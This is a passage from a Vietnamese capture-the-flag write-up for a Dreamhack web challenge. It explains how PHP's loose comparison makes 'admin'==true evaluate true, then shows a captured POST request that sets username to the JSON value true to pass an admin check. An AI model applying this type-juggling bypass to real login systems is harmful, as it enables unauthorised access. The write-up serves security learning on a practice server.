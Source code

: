 ```php
    
        echo 'default';
        break;
}

if ("admin"==true) echo "two";

# Output:
onetwo
```
Vậy là ta đã biết cách để có thể `Authentication` với tư cách là `admin` mà không cần nhập từ `admin`.

**B5:** Ta đổi giá trị `username` trong gói tin POST thành `true`:
```
POST /index.php HTTP/1.1
Host: host1.dreamhack.games:13706
Content-Length: 29
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host1.dreamhack.games:13706
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:13706/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=536ba4556290950c6a2a852dd00ba0bd
Connection: keep-alive

username={"username":true}
```
Và response ta nhận được là:
![alt text](./images/image-1.png)
Đúng như dự đoán, ta sẽ không thể thấy dòng nào cả vì biến `$result` ở tag `html` chẳng có giá trị do biến lưu giá trị ở phần `admin` là `$resulttt`.

